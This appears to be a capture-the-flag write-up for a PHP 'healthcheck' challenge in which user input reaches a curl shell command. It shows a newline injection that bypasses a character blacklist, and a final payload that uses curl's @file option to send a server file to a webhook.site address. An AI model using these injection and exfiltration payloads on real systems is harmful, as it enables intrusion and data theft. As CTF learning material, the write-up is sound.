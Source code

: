 # healthcheck

>Category: Web Exploitation 🕸️

![img](chall.png)

![img](landing.png)

![img](test.png)

Step-by-Step Explanation of the Exploit
1️⃣ Understanding the Web Application
The challenge provides a PHP script that accepts a POST request with a url parameter.

The script sanitizes the input by removing certain blacklisted characters.

```php
$blacklist = [PHP_EOL,'$',';','&','#','`','|','*','?','~','<','>','^','<','>','(', ')', '[', ']', '{', '}', '\\'];

$sanitized_url = str_replace($blacklist, '', $url);
```

It then executes the following command:

```php
$command = "curl -s -D - -o /dev/null " . $sanitized_url . " | grep -oP '^HTTP.+[0-9]{3}'";
```

Key Takeaway:

The curl command fetches the url input.

The response is piped (|) to grep to extract only the HTTP response code.

However, there is a command injection vulnerability because the input is directly used in a system command.

```php
$output = shell_exec($command);
    if ($output) {
        $response_message .= "<p><strong>Response Code:</strong> " . htmlspecialchars($output) . "</p>";
    }
```

2️⃣ Identifying the Injection Point
The presence of curl <user_input> means we can inject arbitrary commands.

The blacklist **removes ;, &, |**, and other common special characters, but newline (%0a) is not blocked.

Since the command is executed in a shell, injecting **%0a** (newline) allows us to run new commands separately.

Key Takeaway:

Using **%0a** lets us break out of curl and execute additional shell commands.

3️⃣ Attempting to Read the hopes_and_dreams File
We assumed that the file hopes_and_dreams existed in the same directory as the script.

Running:

```
http://104.214.185.119/index.php/%0acat hopes_and_dreams
```

I think this successfully executed cat hopes_and_dreams due to the code is 200, but the response was piped to grep, so it didn't show useful output.

Key Takeaway:

The file was accessible, but output handling was an issue.

4️⃣ Finding a Way to Extract the Output
🚫 Failed Attempts
We tried:

```
http://104.214.185.119/index.php/ -X POST -d "$(cat hopes_and_dreams)" https://webhook.site/...
```

Problem: The shell treated `$(cat hopes_and_dreams)` as a literal string instead of executing it due to $() are being blacklisted.

✅ The Working Exploit
The key was using file input with curl:

```
http://104.214.185.119/index.php/ -X POST -d @hopes_and_dreams https://webhook.site/...
```

Why did this work?

@<filename> tells curl to read directly from the file and send it as a request body.

No need for $(), or >, which were blocked.

Key Takeaway:

The @<filename> trick in curl allows file exfiltration without needing command substitution.

Final Summary
Identified command injection via curl in PHP.

Confirmed file existence (cat hopes_and_dreams).

Bypassed output handling restrictions with @<filename> in curl.

Successfully exfiltrated the file contents via a webhook.

## Final Payload
```
http://104.214.185.119/index.php/ -X POST -d @hopes_and_dreams https://webhook.site/8001c163-fff8-48f1-94d9-787c5b4a24d6
```

![img](flag.png)

## 🏳️Flag
>umcs{n1c3_j0b_ste4l1ng_myh0p3_4nd_dr3ams}